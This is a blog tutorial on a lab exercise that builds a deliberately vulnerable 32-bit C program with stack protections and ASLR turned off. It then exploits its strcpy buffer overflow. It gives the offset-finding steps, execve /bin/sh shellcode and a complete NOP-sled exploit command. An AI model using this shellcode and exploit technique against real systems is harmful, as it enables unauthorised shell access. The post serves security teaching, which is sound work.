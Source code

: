 ```yaml
---
title: "Buffer Overflow 101"
description: Here is a demo of all shortcodes available in Hugo.
date: 2025-03-26
tags: ["buffer overflow", "exploit development", "security", "vulnerability"]
categories: ["Cybersecurity", "Exploitation"]
summary: This post covers the basics of creating and exploiting a buffer overflow vulnerability.
toc: true
---
```


<script src="https://cdn.jsdelivr.net/npm/medium-zoom@1.0.6/dist/medium-zoom.min.js"></script>
<script>
  document.addEventListener('DOMContentLoaded', function () {
    mediumZoom('article img'); // Targets all images inside articles
  });
</script>

<style>
.toc {
  font-size: 0.9em; /* Reduce the font size */
  width: auto; /* Keep the width dynamic */
  padding: 8px; /* Add some padding for spacing */
  position: relative; /* Ensure it stays in its original position */
  margin-left: 0; /* Keep it aligned to the left */
}

.toc a {
  font-size: 0.85em; /* Reduce the font size of links */
  line-height: 1.4; /* Adjust line height for better readability */
}

/* Increase the font size of post summaries in the posts list */
.posts .post-summary,
.post .summary {
  font-size: 1.4rem; /* Slightly larger size for summaries */
  line-height: 1.7; /* Improve readability */
  color: var(--font-color); /* Ensure it matches the theme */
  margin-bottom: 14px; /* Add spacing below the summary */
}

/* Increase the font size of post metadata (like dates) */
.posts .post-meta,
.post .post-meta {
  font-size: 1.3rem; /* Slightly larger size for metadata */
  color: var(--secondary); /* Use a secondary color for distinction */
  margin-bottom: 12px; /* Add spacing below the metadata */
}
</style>

## Background
- A bit of background on buffer overflows: Buffer overflows occur when a program attempts to write more data into a buffer than it has allocated for it. This can lead to overwriting adjacent memory locations, potentially resulting in code execution or other security vulnerabilities.
- Recently, in one of my lectures, I was tasked with simulating a buffer overflow vulnerability, and I would like to share my approach to simulating this vulnerability.

## C Program used for the Simulation

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char *argv[]) {
    char buffer[256];
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
    return 0;
}
```

- The above binary is vulnerable because of the use of `strcpy`, which fails to check for buffer overflow. Since `strcpy` copies data without ensuring the destination buffer has enough space, an attacker can exploit this to overwrite adjacent memory. PS: for such applications always use `strncpy`.


## Compilation
```c
gcc -fno-stack-protector -z execstack -no-pie -m32 -mpreferred-stack-boundary=2 program.c -o program
```
- <u>_**mpreferred-stack-boundary**_</u>: This is particularly relevant for older or specific ABI requirements, as many modern systems use a higher boundary. Basically in my case, I had to use this to ensure that the stack is aligned to 4 bytes as im compiling to a 32 bit binary.
- <u>_**fno-stack-protector**_:</u> Disables stack protection also known as canaries allowing buffer overflow to occur.
- <u>_**execstack**_:</u> This flag marks the stack as executable, allowing you to place and run code from the stack.
- <u>_**no-pie**_:</u> Disabling PIE (Position Independent Executable) means the binary loads at a fixed address, which simplifies things for certain testing scenarios (like predictable addresses for shellcode).
- <u>_**m32**_</u>: This flag compiles your code as a 32-bit binary.

Also make sure to disable ASLR using the below command,

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

This makes sure that the addresses are not randomized and are predictable.

## Reconnaissance
![Checksec Image](/images/Screenshot_2025-03-26_10-47-14.png)

- <u>_**PIE**_</u>: No PIE, meaning that the binary is not built as a Position Independent Executable, which results in a fixed memory layout each time the program runs.
- <u>_**Stack**_</u>: No Canary found meaning we can easily perform buffer overflow as there are no protections also it is executable allowing for shellcode to be executed.

## Performing the attack

1. <u>**Basic Exploration**</u>  
   First, I'll disassemble the `main` function and fill the buffer to find out where the buffer's address is stored in the stack.

    ![Buffer Address](/images/Screenshot_2025-03-20_08-04-13.png)

    Now from the above we will first try to put a breakpoint at something after the **puts@plt** which is at `0x8049050` so that we can see how the buffer fills upon filling with input.

2. <u>**Filling the Buffer**</u>

    ![Filling Buffer](/images/Screenshot_2025-03-21_00-37-48.png)

    Command: `r $(python2 -c 'print "A"*256')`

    In the above image upon running this we can fill the buffer which can accommodate `256` bytes of characters using python2. By doing so we can find out whats the starting address of the buffer which will be used to craft the exploit.

    Running the below command gives us a better clarity,

    Command: `x/256x $esp`

    ![Inspecting Buffer](/images/Screenshot_2025-03-21_00-38-01.png)

    From this image we can see that the buffer starts filling from `0xffffcfa4` with ‘A’ (0x41)

3. <u>**Offset Calculation**</u>

    Now lets find till where we must give input so that we can overwrite the EIP (current instruction register) . From the below we see that we overwrote the EIP with `‘qaac’`.

    Command: `cyclic 300`

    ![Cyclic 300](/images/Screenshot_2025-03-21_00-39-34.png)

    Now finding the offset using the below command,

    Command: `cyclic -l qaac`

    ![Cyclic finder](/images/Screenshot_2025-03-21_00-39-51.png)

    Thus we found that the offset needed is `264` after which the next 4 bytes given will overwrite the EIP with that value.

    Command: `r $(python2 -c 'print "A"*264 + "BBBB"')`

    We can confirm this with the below image where after `264`, I have given `‘BBBB’` as input which has been overwritten onto the EIP.

    ![EIP overwrite](/images/Screenshot_2025-03-21_00-43-47.png)

4. <u>**Writing the Exploit**</u>

    Now we have the following details:

     **Buffer starting address**: `0xffffcfa4`  
     **Offset**: `264`

    Next, we need malicious code. I’ll be using a shellcode that spawns a shell from the binary, which can be exploited by an attacker to compromise the system.

    **Shellcode used**:
    ```bash
    \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80
    ```

    The above is a 23 byte shell code 

    So now to write the exploit we need to follow the below structure,


    - First we need a **NOP** (NO operation sled) which provides a safe landing zone for the return address. Basically making sure that execution slides down NOPs to reach the shellcode . For this lets take a value of `100` NOPs (experimentally found).
    - Next we put the 23 byte shell code.
    - Next since the offset was 264 we fill the remaining (264 – 23 – 100 = `141`) with padding, so here Ive padded with ‘A’
    - Next we write the address which we want to overwrite on the EIP
    - In this the actual return stack address is `0xffffcfa4`, however we want to point it to an address which is somewhere within the NOP sled so it can slide to the shellcode. Hence from the below image ill take the address `0xffffd0c0` which is filled with /x90 which are NOPs so that it can slide execution into the shellcode.<br><br>
    
    The stack address is located higher in memory, as shown below:

    ![Image with NOP slide](/images/Screenshot_2025-03-21_17-21-21.png)

    Thus, we can craft the exploit as follows:

    ```bash
    ./program $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x90"*100 + b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80" + b"A"*141 + b"\xc0\xd0\xff\xff")')
    ```

    - The address `0xffffd0c0` has been written in little endian hence `\xc0\xd0\xff\xff`.
    - NOP in hex is `\x90`.<br><br>
    Below is an image which shows the attack being successful and spawing a shell which can be used by the attacker for manipulating the system.<br><br>

    ![Attacked](/images/Screenshot_2025-03-21_17-25-56.png)

    BOOM! We have successfully exploited the buffer overflow vulnerability and spawned a shell.

